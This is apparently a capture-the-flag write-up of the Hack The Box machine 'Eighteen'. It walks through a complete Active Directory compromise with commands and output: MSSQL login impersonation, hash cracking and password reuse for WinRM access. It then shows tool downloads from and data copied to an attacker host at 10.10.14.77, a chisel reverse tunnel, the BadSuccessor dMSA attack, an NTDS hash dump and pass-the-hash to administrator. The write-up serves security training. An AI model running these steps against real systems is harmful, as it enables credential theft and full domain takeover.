

+++
date = '2026-10-15T08:58:44-04:00'
draft = true
title = 'Eighteen'
+++
## Introduction

## Enumeration

Before taking on this machine, some information was given out as part of the introduction to the challenge. The credentials below are given for an account. These will likely give a foothold on some part of the machine and will simulate a credntial leakage as part of an early data breach or attack.

```bash
kevin:iNa2we6haRj2gaw!
```

Even with the credential leakage, it's important to figure out what service the credentials might be releted to. I'll use nmap to do some service discovery and version fingerprinting.

```bash
nmap -T4 -sC -sC -p- eighteen.htb
Starting Nmap 7.98 ( https://nmap.org ) at 2026-10-15 09:07 -0400
Nmap scan report for eighteen.htb (10.129.86.135)
Host is up (0.013s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
|_http-title: Welcome - eighteen.htb
1433/tcp open  ms-sql-s
|_ssl-date: 2026-10-15T20:09:03+00:00; +6h59m53s from scanner time.
| ms-sql-info: 
|   10.129.86.135:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-10-15T19:57:20
|_Not valid after:  2056-10-15T19:57:20
| ms-sql-ntlm-info: 
|   10.129.86.135:1433: 
|     Target_Name: EIGHTEEN
|     NetBIOS_Domain_Name: EIGHTEEN
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: eighteen.htb
|     DNS_Computer_Name: DC01.eighteen.htb
|     DNS_Tree_Name: eighteen.htb
|_    Product_Version: 10.0.26100
5985/tcp open  wsman

Host script results:
|_clock-skew: mean: 6h59m52s, deviation: 0s, median: 6h59m52s

Nmap done: 1 IP address (1 host up) scanned in 97.71 seconds
```

The scan reveals a webserver on port 80, a Microsoft SQL server on port 1433 and finally a windows server management tool on port 5985. Out of practise, I decided to check out the webserver to see what content is there. It seems to be a financial management solution for expenses tracking. I tried to use the exposed credentials to access Kevin's account via the webapp however those credentials did not work there.


Since the website failed to shed any light on the leaked credentials, I thought I'd try use them against the the microsoft SQL database. Using a tool from the impacket library, I could successfully connect as the user kevin and begin to explore the data held within it.

```bash
impacket-mssqlclient kevin:iNa2we6haRj2gaw\!@eighteen.htb
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01): Line 1: Changed database context to 'master'.
[*] INFO(DC01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (kevin  guest@master)>
```

## Database Exploration

With an established entrypoint to the machine, it was important start gathering information that might give away some details as to how this database is used, who uses it and are there any other credentials that could be lifted from it. I began by discovering the users of the database which revealed a server admin 'sa' account, the account for kevin which was already compromised, and an appdev account. It's likely that this user has some connection to the web server that I had already seen.

```bash
QL (kevin  guest@master)> Select * from sys.server_principals where type_desc != 'SERVER_ROLE'
name     principal_id                                   sid   type   type_desc   is_disabled   create_date   modify_date   default_database_name   default_language_name   credential_id   owning_principal_id   is_fixed_role                              tenant_id   
------   ------------   -----------------------------------   ----   ---------   -----------   -----------   -----------   ---------------------   ---------------------   -------------   -------------------   -------------   ------------------------------------   
sa                  1                                 b'01'   b'S'   SQL_LOGIN             0   2003-04-08 09:10:35   2026-10-15 13:32:15   master                  us_english                       NULL                  NULL               0                                   NULL   
kevin             267   b'9c5c3096c3dfc8458e31cbfcaa0b6a65'   b'S'   SQL_LOGIN             0   2025-09-12 01:38:48   2026-10-15 13:30:26   master                  us_english                       NULL                  NULL               0   00000000-0000-0000-0000-000000000000   
appdev            268   b'2db95bab7f6f5547ae808360dcaddaba'   b'S'   SQL_LOGIN             0   2025-09-12 01:38:53   2025-09-12 01:38:53   master                  us_english                       NULL                  NULL               0   00000000-0000-0000-0000-000000000000  
```

Using a built in shortcut of the impacket SQL client, I could enumerate the users that kevin is permitted to impersonate. Interestingly, kevin has permissions to execute SQL as if they were the appdev account, meaning that more of the servers tables were likely to be accessible to appdev and therefore myself with kevin's credentials. 

```bash
SQL (kevin  guest@master)> enum_impersonate
execute as   database   permission_name   state_desc   grantee   grantor   
----------   --------   ---------------   ----------   -------   -------   
b'LOGIN'     b''        IMPERSONATE       GRANT        kevin     appdev
```

```bash
SQL (kevin  guest@master)> exec_as_login appdev
SQL (appdev  appdev@master)> 
```

This turns out to be the case, and inside of the financial_planner database there are tables representative of a financial planning app, likely the same one that is advertised via the web app. Whats more interesting is there is a users table with one user, the admin. The admins hashed password is listed in the database which I will copy down and make use of later in the challenge.

```bash
SQL (appdev  appdev@financial_planner)> SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE='BASE TABLE'
TABLE_CATALOG       TABLE_SCHEMA   TABLE_NAME    TABLE_TYPE   
-----------------   ------------   -----------   ----------   
financial_planner   dbo            users         b'BASE TABLE'   
financial_planner   dbo            incomes       b'BASE TABLE'   
financial_planner   dbo            expenses      b'BASE TABLE'   
financial_planner   dbo            allocations   b'BASE TABLE'   
financial_planner   dbo            analytics     b'BASE TABLE'   
financial_planner   dbo            visits        b'BASE TABLE' 
```

```bash
SQL (appdev  appdev@financial_planner)> SELECT * FROM users;
  id   full_name   username   email                password_hash                                                                                            is_admin   created_at   
----   ---------   --------   ------------------   ------------------------------------------------------------------------------------------------------   --------   ----------   
1002   admin       admin      admin@eighteen.htb   pbkdf2:sha256:600000$AMtzteQIG7yAbZIa$0673ad90a0b4afb19d662336f0fce3a9edd0b7b19193717be28ce4d66c887133          1   2025-10-29 05:39:03 
```

## Admin Password Cracking

With the admin password hash recovered, it seemed a natural next step to attempt to crack the hash and reveal the plaintext password. However, initial attempts to crack the password with hashcat did not prove successful. From the error logs, hashcat struggled to parse the format of the hash in question which meant I needed to understand how this hash was generated and what its components mean.

Breaking it down, the hash appears to take the following format:

 - Algorithm
 - Hash Format
 - Number of Iterations
 - Salt
 - Password Hash

With the format now understood, I could reformat the hash to match what hashcat expects for this hash algorithm. Luckily, a python script already exists to perform this operation. Finally, the hash can be fed into hashcat with the rockyou.txt password list as a dictionary input. It reveals that the admins password is... iloveyou1.

```python
#!/usr/bin/env python3

import base64
import codecs
import re
import sys


if len(sys.argv) != 2:
    print(f'usage: {sys.argv[0]} <werkzeug hash file>')
    print('Input file has Werkzeug hashes one per line')
    sys.exit(1)

with open(sys.argv[1], 'r') as f:
    hashes = f.readlines()

for h in hashes:
    m = re.match(r'pbkdf2:sha256:(\d*)\$([^\$]*)\$(.*)', h)
    iterations =  m.group(1)
    salt = m.group(2)
    hashe = m.group(3)
    print(f"sha256:{iterations}:{base64.b64encode(salt.encode()).decode()}:{base64.b64encode(codecs.decode(hashe,'hex')).decode()}")
```

```bash
sha256:600000:QU10enRlUUlHN3lBYlpJYQ==:BnOtkKC0r7GdZiM28Pzjqe3Qt7GRk3F74ozk1myIcTM=:iloveyou1
```

## Financial Planning as Admin

Now that the admin password is known, I took a look around the financial planning web server to see if the admin had any special privileges within the web app itself. The admin does have their own dashboard however it simply confirms what I had previously discovered, there is 1 user and the app is using the mssql server to save its data. After scouting around the different menus, nothing seemed to be a likely pathway to further compromising the machine so I moved my attention elsewhere.



## Enumerating other Users

Since the admin credentials do not give any further paths to traverse down on the web application, I decided to look for other accounts that might be susceptable. Given that I had correct credentials to the mssql database, I could use that access to attempt to discover other domain users. The netexec toolset has a feature to perform this automatically by formating sql queries to reveal other accounts. At the bottom of the account list, there are a series of user accounts using a firstname.lastname formatting that look interesting.

```bash
netexec mssql eighteen.htb -u kevin -p 'iNa2we6haRj2gaw!' --local-auth --rid-brute
MSSQL       10.129.86.193   1433   DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:eighteen.htb) (EncryptionReq:False)
MSSQL       10.129.86.193   1433   DC01             [+] DC01\kevin:iNa2we6haRj2gaw! 
MSSQL       10.129.86.193   1433   DC01             498: EIGHTEEN\Enterprise Read-only Domain Controllers
MSSQL       10.129.86.193   1433   DC01             500: EIGHTEEN\Administrator
MSSQL       10.129.86.193   1433   DC01             501: EIGHTEEN\Guest
MSSQL       10.129.86.193   1433   DC01             502: EIGHTEEN\krbtgt
MSSQL       10.129.86.193   1433   DC01             512: EIGHTEEN\Domain Admins
MSSQL       10.129.86.193   1433   DC01             513: EIGHTEEN\Domain Users
MSSQL       10.129.86.193   1433   DC01             514: EIGHTEEN\Domain Guests
MSSQL       10.129.86.193   1433   DC01             515: EIGHTEEN\Domain Computers
MSSQL       10.129.86.193   1433   DC01             516: EIGHTEEN\Domain Controllers
MSSQL       10.129.86.193   1433   DC01             517: EIGHTEEN\Cert Publishers
MSSQL       10.129.86.193   1433   DC01             518: EIGHTEEN\Schema Admins
MSSQL       10.129.86.193   1433   DC01             519: EIGHTEEN\Enterprise Admins
MSSQL       10.129.86.193   1433   DC01             520: EIGHTEEN\Group Policy Creator Owners
MSSQL       10.129.86.193   1433   DC01             521: EIGHTEEN\Read-only Domain Controllers
MSSQL       10.129.86.193   1433   DC01             522: EIGHTEEN\Cloneable Domain Controllers
MSSQL       10.129.86.193   1433   DC01             525: EIGHTEEN\Protected Users
MSSQL       10.129.86.193   1433   DC01             526: EIGHTEEN\Key Admins
MSSQL       10.129.86.193   1433   DC01             527: EIGHTEEN\Enterprise Key Admins
MSSQL       10.129.86.193   1433   DC01             528: EIGHTEEN\Forest Trust Accounts
MSSQL       10.129.86.193   1433   DC01             529: EIGHTEEN\External Trust Accounts
MSSQL       10.129.86.193   1433   DC01             553: EIGHTEEN\RAS and IAS Servers
MSSQL       10.129.86.193   1433   DC01             571: EIGHTEEN\Allowed RODC Password Replication Group
MSSQL       10.129.86.193   1433   DC01             572: EIGHTEEN\Denied RODC Password Replication Group
MSSQL       10.129.86.193   1433   DC01             1000: EIGHTEEN\DC01$
MSSQL       10.129.86.193   1433   DC01             1101: EIGHTEEN\DnsAdmins
MSSQL       10.129.86.193   1433   DC01             1102: EIGHTEEN\DnsUpdateProxy
MSSQL       10.129.86.193   1433   DC01             1601: EIGHTEEN\mssqlsvc
MSSQL       10.129.86.193   1433   DC01             1602: EIGHTEEN\SQLServer2005SQLBrowserUser$DC01
MSSQL       10.129.86.193   1433   DC01             1603: EIGHTEEN\HR
MSSQL       10.129.86.193   1433   DC01             1604: EIGHTEEN\IT
MSSQL       10.129.86.193   1433   DC01             1605: EIGHTEEN\Finance
MSSQL       10.129.86.193   1433   DC01             1606: EIGHTEEN\jamie.dunn
MSSQL       10.129.86.193   1433   DC01             1607: EIGHTEEN\jane.smith
MSSQL       10.129.86.193   1433   DC01             1608: EIGHTEEN\alice.jones
MSSQL       10.129.86.193   1433   DC01             1609: EIGHTEEN\adam.scott
MSSQL       10.129.86.193   1433   DC01             1610: EIGHTEEN\bob.brown
MSSQL       10.129.86.193   1433   DC01             1611: EIGHTEEN\carol.white
MSSQL       10.129.86.193   1433   DC01             1612: EIGHTEEN\dave.green
```

To rule out the possiblity of password reuse, I attempted to login to the windows remote management solution using the discovered admin credentials from the webapp. As it turns out, adam.scott is guilty of reusing the same password for the admin account and I was able to login as his account to the windows host. The Evil-WinRM client allows for a remote powershell terminal, giving a user level foothold on the server.

```bash
evil-winrm -i eighteen.htb -u adam.scott -p iloveyou1
```

## Privilege Escalation

I began by searching through the files accessible to Adam Scott but nothing in particular stood out. I tried to get  some system information from machine however 'systeminfo' gave a permission denied response. The cmdlet Get-SystemInfo did return enough data to start establishing what the machine is. The snippet reveals that the machine is a Windows DataCenter build from 2025.


```bash
*Evil-WinRM* PS C:\Users\adamscott\Documents> Get-ComputerInfo                                  
WindowsBuildLabEx                                       : 26100.1.amd64fre.ge_release.240331-1435                       
WindowsCurrentVersion                                   : 6.3
WindowsEditionId                                        : ServerDatacenter  
WindowsInstallationType                                 : Server Core
WindowsInstallDateFromRegistry                          : 3/24/2025 3:38:13 AM
WindowsProductId                                        : 00491-60000-17651-AA131
WindowsProductName                                      : Windows Server 2025 Datacenter
WindowsRegisteredOrganization                           : 
WindowsRegisteredOwner                                  : 
WindowsSystemRoot                                       : C:\WINDOWS                                                  
WindowsVersion                                          : 2009                                                          
OSDisplayVersion                                        : 24H2
```

```bash
*Evil-WinRM* PS C:\programdata> wget http://10.10.14.77:8080/SharpHound.exe -outfile run.exe
```

```bash
*Evil-WinRM* PS C:\programdata> net use \\10.10.14.77\share /u:exfil exfil
The command completed successfully.

*Evil-WinRM* PS C:\programdata> copy 20261109174631_BloodHound.zip \\10.10.14.77\share\
```

```bash
┌──(kali㉿kali)-[~/projects/htb/eighteen]
└─$ sudo impacket-smbserver share . -smb2support -username exfil -password exfil
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies
```

## Bad Successor

```bash
*Evil-WinRM* PS C:\programdata> wget http://10.10.14.77:8080/chisel.exe -outfile chisel.exe
```

```bash
*Evil-WinRM* PS C:\programdata> .\chisel.exe client 10.10.14.77:8080 R:socks
```

```bash
/chisel server -p 8080 --socks5 --reverse
```

```bash
proxychains netexec smb dc01.eighteen.htb
```

```bash
┌──(kali㉿kali)-[~]
└─$ proxychains netexec ldap eighteen.htb -M badsuccessor -u adam.scott -p iloveyou1
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.129.97.251:389  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.129.97.251:389  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.129.97.251:636  ...  OK
LDAP        10.129.97.251   389    DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:eighteen.htb) (signing:Enforced) (channel binding:No TLS cert)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.129.97.251:389  ...  OK
LDAP        10.129.97.251   389    DC01             [+] eighteen.htb\adam.scott:iloveyou1 
BADSUCCE... 10.129.97.251   389    DC01             [+] Found domain controller with operating system Windows Server 2025: 224.0.0.1 (DC01.eighteen.htb)
BADSUCCE... 10.129.97.251   389    DC01             [+] Found 1 results
BADSUCCE... 10.129.97.251   389    DC01             IT (S-1-5-21-1152179935-589108180-1989892463-1604), OU=Staff,DC=eighteen,DC=htb
```

```bash
┌──(kali㉿kali)-[/opt/NetExec]
└─$ git fetch origin pull/1163/head:badsuccessor
remote: Enumerating objects: 18, done.
remote: Counting objects: 100% (12/12), done.
remote: Total 18 (delta 11), reused 11 (delta 11), pack-reused 6 (from 2)
Unpacking objects: 100% (18/18), 18.70 KiB | 2.34 MiB/s, done.
From https://github.com/Pennyw0rth/NetExec
 * [new ref]           refs/pull/1163/head -> badsuccessor
                                                                                                                                                                 
┌──(kali㉿kali)-[/opt/NetExec]
└─$ git checkout badsuccessor                   
Switched to branch 'badsuccessor'
```

```bash
┌──(kali㉿kali)-[/opt/NetExec]
└─$ proxychains netexec ldap eighteen.htb -u adam.scott -p iloveyou1 -M badsuccessor -o TARGET_OU='OU=Staff,DC=eighteen,DC=htb' DMSA_NAME=generic_dmsa TARGET_ACCOUNT=Administrator
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.129.97.251:389  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.129.97.251:389  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.129.97.251:636  ...  OK
LDAP        10.129.97.251   389    DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:eighteen.htb) (signing:Enforced) (channel binding:No TLS cert) 
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.129.97.251:389  ...  OK
LDAP        10.129.97.251   389    DC01             [+] eighteen.htb\adam.scott:iloveyou1 
BADSUCCE... 10.129.97.251   389    DC01             [+] Found DC with Windows Server 2025: 224.0.0.1 (DC01.eighteen.htb)
BADSUCCE... 10.129.97.251   389    DC01             [+] dMSA 'generic_dmsa$' created at CN=generic_dmsa,OU=Staff,DC=eighteen,DC=htb
BADSUCCE... 10.129.97.251   389    DC01             DNS Hostname: generic_dmsa.eighteen.htb
BADSUCCE... 10.129.97.251   389    DC01             Migration state: 2 (completed)
BADSUCCE... 10.129.97.251   389    DC01             Target account: CN=Administrator,CN=Users,DC=eighteen,DC=htb
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.129.97.251:88  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.129.97.251:88  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.129.97.251:88  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.129.97.251:88  ...  OK
BADSUCCE... 10.129.97.251   389    DC01             [-] Failed to get TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

```bash
*Evil-WinRM* PS C:\Users\adam.scott\Documents> Get-Date

Thursday, November 12, 2026 1:08:25 PM
```
```bash
┌──(kali㉿kali)-[/opt/NetExec]
└─$ sudo timedatectl set-ntp false
[sudo] password for kali: 
                                                                                                                                                                 
┌──(kali㉿kali)-[/opt/NetExec]
└─$ sudo timedatectl set-time "2026-11-12 13:09:20"
                                                                                                                                                                  
┌──(kali㉿kali)-[/opt/NetExec]
└─$ timedatectl status                                                          
               Local time: Thu 2026-11-12 13:09:36 EST
           Universal time: Thu 2026-11-12 18:09:36 UTC
                 RTC time: Thu 2026-11-12 18:09:37
                Time zone: America/New_York (EST, -0500)
System clock synchronized: no
              NTP service: inactive
          RTC in local TZ: no
```

```bash
┌──(kali㉿kali)-[/opt/NetExec]                                                                                                                                    
└─$ proxychains netexec ldap eighteen.htb -u adam.scott -p iloveyou1 -M badsuccessor -o TARGET_OU='OU=Staff,DC=eighteen,DC=htb' DMSA_NAME=generic_dmsa TARGET_ACC$
UNT=Administrator                                                                                                                                                 
[proxychains] config file found: /etc/proxychains4.conf                                                                                                           
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4                                                                                            
[proxychains] DLL init: proxychains-ng 4.17                                     
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.129.97.251:389  ...  OK                                                                                  
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.129.97.251:389  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.129.97.251:636  ...  OK
LDAP        10.129.97.251   389    DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:eighteen.htb) (signing:Enforced) (channel binding
:No TLS cert)                                                                                                                                                     
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.129.97.251:389  ...  OK                                                                                  
LDAP        10.129.97.251   389    DC01             [+] eighteen.htb\adam.scott:iloveyou1  
BADSUCCE... 10.129.97.251   389    DC01             [+] Found DC with Windows Server 2025: 224.0.0.1 (DC01.eighteen.htb)
BADSUCCE... 10.129.97.251   389    DC01             [+] dMSA 'generic_dmsa$' created at CN=generic_dmsa,OU=Staff,DC=eighteen,DC=htb
BADSUCCE... 10.129.97.251   389    DC01             DNS Hostname: generic_dmsa.eighteen.htb
BADSUCCE... 10.129.97.251   389    DC01             Migration state: 2 (completed)
BADSUCCE... 10.129.97.251   389    DC01             Target account: CN=Administrator,CN=Users,DC=eighteen,DC=htb
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.129.97.251:88  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.129.97.251:88  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.129.97.251:88  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.129.97.251:88  ...  OK                                                                                   
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.129.97.251:88  ...  OK                                                                                   
BADSUCCE... 10.129.97.251   389    DC01             [+] Current keys:
BADSUCCE... 10.129.97.251   389    DC01             EncryptionTypes.aes256_cts_hmac_sha1_96: eb4fbeedf8c3e947e3b09d9c48cdb8017fe8069ee8164650f80c47acd30443a0
BADSUCCE... 10.129.97.251   389    DC01             EncryptionTypes.aes128_cts_hmac_sha1_96: 7ed6c2bb833c8cf050b07062453b3765
BADSUCCE... 10.129.97.251   389    DC01             EncryptionTypes.rc4_hmac: a332c8af9ec980f934af7dacf82f20de
BADSUCCE... 10.129.97.251   389    DC01             [+] Previous keys:
BADSUCCE... 10.129.97.251   389    DC01             EncryptionTypes.rc4_hmac: 0b133be956bfaddf9cea56701affddec
BADSUCCE... 10.129.97.251   389    DC01             [+] Service ticket saved to /home/kali/.nxc/modules/badsuccessor/generic_dmsa$.ccache
```

```bash
┌──(kali㉿kali)-[/opt/NetExec]
└─$ KRB5CCNAME=/home/kali/.nxc/modules/badsuccessor/generic_dmsa\$.ccache proxychains -q netexec smb dc01.eighteen.htb --use-kcache --ntds 
SMB         dc01.eighteen.htb 445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:eighteen.htb) (signing:True) (SMBv1:False) (Null Auth:True) (DC:True)
SMB         dc01.eighteen.htb 445    DC01             [+] eighteen.htb\generic_dmsa$ from ccache (Pwn3d!)
SMB         dc01.eighteen.htb 445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         dc01.eighteen.htb 445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:0b133be956bfaddf9cea56701affddec:::
SMB         dc01.eighteen.htb 445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         dc01.eighteen.htb 445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a7c7a912503b16d8402008c1aebdb649:::
SMB         dc01.eighteen.htb 445    DC01             mssqlsvc:1601:aad3b435b51404eeaad3b435b51404ee:c44d16951b0810e8f3bbade300966ec4:::
SMB         dc01.eighteen.htb 445    DC01             eighteen.htb\jamie.dunn:1606:aad3b435b51404eeaad3b435b51404ee:9fbaaf9e93e576187bb840e93971792a:::
SMB         dc01.eighteen.htb 445    DC01             eighteen.htb\jane.smith:1607:aad3b435b51404eeaad3b435b51404ee:42554e3213381f9d1787d2dbe6850d21:::
SMB         dc01.eighteen.htb 445    DC01             eighteen.htb\alice.jones:1608:aad3b435b51404eeaad3b435b51404ee:43f8a72420ee58573f6e4f453e72843a:::
SMB         dc01.eighteen.htb 445    DC01             eighteen.htb\adam.scott:1609:aad3b435b51404eeaad3b435b51404ee:9964dae494a77414e34aff4f34412166:::
SMB         dc01.eighteen.htb 445    DC01             eighteen.htb\bob.brown:1610:aad3b435b51404eeaad3b435b51404ee:7e86c41ddac3f95c986e0382239ab1ea:::
SMB         dc01.eighteen.htb 445    DC01             eighteen.htb\carol.white:1611:aad3b435b51404eeaad3b435b51404ee:6056d42866209a6744cb6294df075640:::
SMB         dc01.eighteen.htb 445    DC01             eighteen.htb\dave.green:1612:aad3b435b51404eeaad3b435b51404ee:7624e4baa9c950aa3e0f2c8b1df72ee9:::
SMB         dc01.eighteen.htb 445    DC01             DC01$:1000:aad3b435b51404eeaad3b435b51404ee:d79b6837ac78c51c79aab3d970875584:::
SMB         dc01.eighteen.htb 445    DC01             generic_dmsa$:13111:aad3b435b51404eeaad3b435b51404ee:a332c8af9ec980f934af7dacf82f20de:::
SMB         dc01.eighteen.htb 445    DC01             [+] Dumped 13 NTDS hashes to /home/kali/.nxc/logs/ntds/DC01_dc01.eighteen.htb_2026-11-12_220051.ntds of which 11 were added to the database
SMB         dc01.eighteen.htb 445    DC01             [*] To extract only enabled accounts from the output file, run the following command: 
SMB         dc01.eighteen.htb 445    DC01             [*] grep -iv disabled /home/kali/.nxc/logs/ntds/DC01_dc01.eighteen.htb_2026-11-12_220051.ntds | cut -d ':' -f1
```

```bash
┌──(kali㉿kali)-[/opt/NetExec]                                                                                                                                    
└─$ evil-winrm -i dc01.eighteen.htb -u administrator -H 0b133be956bfaddf9cea56701affddec                                                                          
                                                                                                                                                                  
Evil-WinRM shell v3.9                                                                                                                                             
                                                                                                                                                                  
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline                                  
                                                                                                                                                                  
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
eighteen\administrator
```

```bash
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami
eighteen\administrator
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
306*************************3b1c
```